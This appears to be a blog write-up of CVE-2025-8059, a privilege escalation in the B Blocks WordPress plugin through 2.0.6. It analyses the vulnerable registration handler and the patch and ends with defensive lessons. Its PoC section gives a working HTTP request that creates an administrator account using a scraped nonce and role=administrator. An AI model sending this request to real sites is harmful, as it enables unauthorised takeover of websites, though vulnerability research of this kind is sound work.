




# CVE-2025-8059 Analysis & POC


<!--more-->

## CVE & Basic Info

The **B Blocks** plugin for WordPress contains a **Privilege Escalation** vulnerability caused by **missing authorization** and **improper input validation** in the **rgfr_registration()** function in **all versions up to and including 2.0.6**. This vulnerability allows **unauthenticated attackers** to **create a new account** and **assign it the administrator role**.

* **CVE ID**: [CVE-2025-8059](https://www.cve.org/CVERecord?id=CVE-2025-8059)
* **Vulnerability Type**: Privilege Escalation
* **Affected Versions**: 2.0.6
* **Patched Versions**: 2.0.7
* **CVSS severity**: High (9.8)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress B Blocks Plugin](https://wordpress.org/plugins/b-blocks/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version – B Blocks**

  * `2.0.6` – **vulnerable**
  * `2.0.7` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Analysis

The plugin registers the following action hook:

```php {title="RegisterForm.php v2.0.6" data-open=true hl_lines=[]}
add_action('wp_ajax_nopriv_rgfr_registration', [$this, 'rgfr_registration']);
```

The `wp_ajax_nopriv_` hook is available to all users, including unauthenticated users.
When a request is sent to the endpoint `/wp-admin/admin-ajax.php` with the parameter `action=rgfr_registration`, the callback `rgfr_registration` is executed to handle user registration.

```php {title="RegisterForm.php v2.0.6" data-open=true hl_lines=[20]}
function rgfr_registration(){
    $userEmailSent = false;
    $adminEmailSent = false;
    $errors = [];

    $nonce = sanitize_text_field($_POST['nonce']);

    if(!wp_verify_nonce($nonce, 'wp_ajax')){
        wp_send_json_error('invalid request');
    }

    $data = [
        'username' => sanitize_text_field($_POST['username'] ?? null),
        'email' => sanitize_text_field($_POST['email'] ?? null),
        'password' => sanitize_text_field($_POST['password'] ?? null),
        'confirmpassword' => sanitize_text_field($_POST['confirmpassword'] ?? null),
        'firstname' => sanitize_text_field($_POST['firstName'] ?? null),
        'lastname' => sanitize_text_field($_POST['lastName'] ?? null),
        'website' => sanitize_text_field($_POST['website'] ?? null),
        'role' => sanitize_text_field($_POST['role'] ?? null),
    ];

    $fields = $this->sanitize_array($_POST['fields']);
    $userEmail = $this->sanitize_array($_POST['userEmail']) ?? null;
    $adminEmail = $this->sanitize_array($_POST['adminEmail']) ?? null;

    ...

    $user_id = wp_create_user( $data['username'], $data['password'], $data['email'] );

    if(isset($user_id->errors)){
        wp_send_json_error($user_id->errors);
    }
    
    // now we create an account
    if( $user_id ){ // sent mail after create account
        wp_update_user([
            'ID' => $user_id,
            'first_name' => $data['firstName'],
            'last_name' => $data['lastName'],
            'user_url' => $data['website'],
            'role' => $data['role'],
        ]);
        ...
    }else {
        wp_send_json_error('something went wrong during registration');
    }

    $user = get_user_by('id', $user_id);

    wp_send_json_success([
        'user' => $user->data,
        'user_id' => $user_id,
        'adminEmailSent' => $adminEmailSent,
        'userEmailSent' => $userEmailSent,
        'roles' => $user->roles
    ]);
}
```

The function receives all registration data sent from the client and directly creates a user in WordPress. However, there is **no authorization control** and **no validation or restriction of the input role value**, allowing the client to arbitrarily specify the role when sending the request. This enables an **unauthenticated user** to **create a new account with administrator privileges**, resulting in a serious **Privilege Escalation** vulnerability.

However, a prerequisite for successful user registration is passing the nonce validation step:

```php
$nonce = sanitize_text_field($_POST['nonce']);

if(!wp_verify_nonce($nonce, 'wp_ajax')){
    wp_send_json_error('invalid request');
}
```

The function verifies the nonce using the action `wp_ajax`. When searching for the keyword `wp_ajax`, it can be seen that the nonce is generated when either the **`LoginForm`** or **`Countdown`** block is added to a post or page.


However, the **`LoginForm`** block only appears in **Dev mode**, so regular users cannot generate a nonce through this block.



Therefore, exploitation is only possible via the **`Countdown`** block.



When accessing a post or page containing the **`Countdown`** block, the nonce is rendered in the HTML response on the client side. An attacker can simply open **View Source** or **DevTools → Network → Response** to extract this nonce value.

After obtaining a valid nonce, the attacker can manually send a request to the WordPress AJAX endpoint with the nonce and registration parameters, especially the **`role=administrator`** field. Since the server **does not perform authorization checks** and **trusts user input**, the request is accepted and a new account is created with **administrator privileges**, completing the exploitation process.

The **`v2.0.7`** patch **removes the `RegisterForm.php` file** and completely eliminates the **`wp_ajax_nopriv_rgfr_registration`** action hook, preventing the registration endpoint from being publicly accessible to unauthenticated users. This directly blocks external access to the **`rgfr_registration()`** function and removes the attack vector that allowed unauthorized account creation and role escalation.


## Flow



## Proof of Concept (PoC)

1. Access a post or page containing the **`Countdown`** block and extract the **nonce** from the response (View Source or DevTools → Network).

2. Send a request to the **`/wp-admin/admin-ajax.php`** endpoint with the action **`rgfr_registration`**, attaching the extracted nonce and setting the parameter **`role=administrator`** to create an account with administrative privileges.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost

action=rgfr_registration&nonce=nonce_value&username=hacker&email=hacker@gmail.com&password=hacker&confirmpassword=hacker&firstname=hacker&role=administrator
```



3. Log in using the newly created user account.

## Conclusion

The vulnerability in **B Blocks** plugin version **2.0.6** stems from the fact that the AJAX endpoint **`rgfr_registration`** is publicly accessible to unauthenticated users, while the server **only verifies the nonce without enforcing authorization** and **does not validate or restrict the role input value**. The nonce can be easily obtained through the **`Countdown`** block, allowing attackers to craft arbitrary requests and assign themselves the **`administrator`** role during registration. As a result, attackers can create administrator accounts, leading to **full privilege escalation** and posing a severe risk to the integrity and security of the website.

## Key Takeaways

* **Nonce is not an authorization mechanism**: Nonces only protect against CSRF and cannot replace access control or authentication checks.
* **Never trust client-side input**: Sensitive parameters such as **role** and **capabilities** must be strictly controlled or whitelisted on the server side.
* **Public endpoints must be carefully secured**: Hooks such as **`wp_ajax_nopriv_*`** should be designed cautiously because they are accessible to anyone.
* **Validation and sanitization are different concepts**: Sanitization cleans data, but does not guarantee logical or security correctness.

## References

[Privilege Escalation](https://patchstack.com/academy/wordpress/vulnerabilities/privilege-escalation/)

[WordPress B Blocks Plugin 2.0.6 is vulnerable to a high priority Privilege Escalation](https://patchstack.com/database/wordpress/plugin/b-blocks/vulnerability/wordpress-b-blocks-plugin-2-0-6-missing-authorization-to-unauthenticated-privilege-escalation-via-rgfr-registration-function-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2026-01-11-cve-2025-8059/  

